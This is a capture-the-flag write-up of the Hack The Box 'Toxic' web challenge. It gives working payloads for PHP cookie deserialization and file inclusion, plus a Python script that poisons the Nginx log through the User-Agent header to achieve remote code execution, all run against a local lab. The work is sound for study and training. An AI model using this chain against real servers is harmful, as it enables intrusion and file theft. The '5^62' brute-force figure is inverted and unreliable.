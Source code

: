 +++
title = "Hack The Box - Toxic"
tags = [
    "ctf"
]
date = "2022-09-15"
toc = true
+++

# Premise

`Toxic` is another whitebox `Web` challenge from HackTheBox, and presents itself as a web page about the Dart Frog. The goal here is to find a way to retrieve the flag from the web server, using what appears to be a non-interactive webpage.

# Captain Crunch hurts my mouth

Since this is a whitebox challenge, we're given the source code to review, and a local container that we can play with if so inclined.

The HTML of the website seems pretty basic, but there's some interesting stuff in the PHP:

```
if (empty($_COOKIE['PHPSESSID']))
{
    $page = new PageModel;
    $page->file = '/www/index.html';

    setcookie(
        'PHPSESSID', 
        base64_encode(serialize($page)), 
        time()+60*60*24, 
        '/'
    );
} 

$cookie = base64_decode($_COOKIE['PHPSESSID']);
unserialize($cookie);
```

PageModel.php is braindead and just serves up whatever the `PHPSESSID` cookie contains:

```
<?php
class PageModel
{
    public $file;

    public function __destruct() 
    {
        include($this->file);
    }
}
```

Looks like we'll need to provide our own `PHPSESSID` cookie with a serialized page request out to the flag. We can see that the one we get is a `base64` encoded string of `O:9:"PageModel":1:{s:4:"file";s:15:"/www/index.html";}`, so let's try to modify that and re-encode it.

Let's start by base64 encoding the above string, but with the last bit changed to `/flag` - `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoxNToiL2ZsYWciO30g`.

This threw an error to start:

```
2022/07/31 18:10:27 [error] 17#17: *13 FastCGI sent in stderr: "PHP message: PHP Notice:  unserialize(): Error at offset 32 of 45 bytes in /www/index.php on line 24PHP message: PHP Notice:  Undefined property: PageModel::$file in /www/models/PageModel.php on line 8PHP message: PHP Warning:  include(): Filename cannot be empty in /www/models/PageModel.php on line 8PHP message: PHP Warning:  include(): Failed opening '' for inclusion (include_path='.:/usr/share/php7') in /www/models/PageModel.php on line 8" while reading response header from upstream, client: 172.17.0.1, server: _, request: "GET / HTTP/1.1", upstream: "fastcgi://unix:/run/php-fpm.sock:", host: "localhost:1337"
```

Let's keep playing. This says that $file is empty/undefined. I think this is because we didn't encode the string properly. Need to update the second `s` to note the proper length of the string, e.g.:

```
O:9:"PageModel":1:{s:4:"file";s:5:"/flag";}
```

This gives us `Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czo1OiIvZmxhZyI7fQ==`

This properly gives us the value, but still an error:

```
2022/07/31 18:12:56 [error] 17#17: *15 FastCGI sent in stderr: "PHP message: PHP Warning:  include(/flag): failed to open stream: No such file or directory in /www/models/PageModel.php on line 8PHP message: PHP Warning:  include(): Failed opening '/flag' for inclusion (include_path='.:/usr/share/php7') in /www/models/PageModel.php on line 8" while reading response header from upstream, client: 172.17.0.1, server: _, request: "GET / HTTP/1.1", upstream: "fastcgi://unix:/run/php-fpm.sock:", host: "localhost:1337"
```

The paths are absolute, as we can see with the original. Hmm... I must be missing something simple. 

# Narrator: "He was missing something simple"

Aha! I had missed that the flag name gets randomized by `entrypoint.sh`:

```
mv /flag /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`
```

It's only 5 chars and alphanum so we could bruteforce this, but there must be an easier way. Copying the file manually to `/flag` we can confirm that the approach of just putting the filename in there is sound - likewise trying to retrieve `/etc/passwd`. At this point we have two ways to try to solve this challenge:

1. Brute force the flag filename... 5^62 complexity though. Maybe not...
2. Find another way to figure out what the flag's full filename is.

# Ah, that's why it's called Toxic...

Ok, the smarter path here is a technique called `log poisoning`. Since we know we can retrieve any file, we can probably get our webserver logs, too. 

We can see, since we have a local copy of this challenge running, that Nginx will log a few things we send to it in its `access.log`. One of these things is the `USER_AGENT` header. As luck would have it, we can set the `USER_AGENT` string to something that would be interpreted as a PHP file and basically have full RCE here (including shell access, if we wanted):

```
import requests
import base64

cookie_payload = 'O:9:"PageModel":1:{s:4:"file";s:25:"/var/log/nginx/access.log";}'
cookie_payload_bytes = cookie_payload.encode('ascii')
cookie_payload_base64_bytes = base64.b64encode(cookie_payload_bytes)
cookie_payload_message = cookie_payload_base64_bytes.decode('ascii')
cookies = {'PHPSESSID': cookie_payload_message}
header_payload = "<?php system('ls -l /');?>"
headers = {'User-Agent': header_payload}

url = "http://localhost:1337"

response = requests.get(url, cookies=cookies, headers=headers)
print(response.text)
```

This will dump the Nginx `access.log` (since we know the path) and thanks to the log poisoning via `USER_AGENT` header we'll be able to get the filename of our target flag. Note that you may need to run this twice since the first hit won't have dumped the output in to the log yet.

Use this filename to update either the `USER_AGENT` header payload to `cat` out the flag, or use the `PHPSESSID` cookie that we were originally playing with to just retrieve it directly, and you're done!

GG!
